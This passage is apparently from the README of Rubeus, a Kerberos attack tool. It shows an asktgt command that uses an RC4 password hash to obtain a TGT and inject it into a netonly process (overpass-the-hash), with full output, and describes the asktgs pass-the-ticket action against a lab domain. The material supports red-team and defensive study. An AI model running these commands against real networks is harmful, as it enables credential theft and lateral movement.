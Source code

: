     [*] Action: Import Ticket
    [+] Ticket successfully imported!


    C:\Rubeus>Rubeus.exe asktgt /user:harmj0y /domain:testlab.local /rc4:2b576acbe6bcfda7294d6bd18041b8fe /createnetonly:C:\Windows\System32\cmd.exe

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 4988
    [+] LUID            : 6241024

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Target LUID : 6241024
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\harmj0y'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 232 bytes
    [*] Received 1405 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIFFjCCBRKgAwIB...(snip)...

    [*] Action: Import Ticket
    [*] Target LUID: 0x5f3b00
    [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**


## asktgs

The **asktgs** action will build/parse a raw TGS-REQ/TGS-REP service ticket request using the specified TGT /ticket:X supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a /dc is not specified, the computer's current domain controller is extracted and used as the destination for the request traffic. The /ptt flag will "pass-the-ticket" and apply the resulting service ticket to the current logon session. One or more /service:X SPNs must be specified, comma separated.

    C:\Temp\tickets>Rubeus.exe asktgt /user:harmj0y /rc4:2b576acbe6bcfda7294d6bd18041b8fe

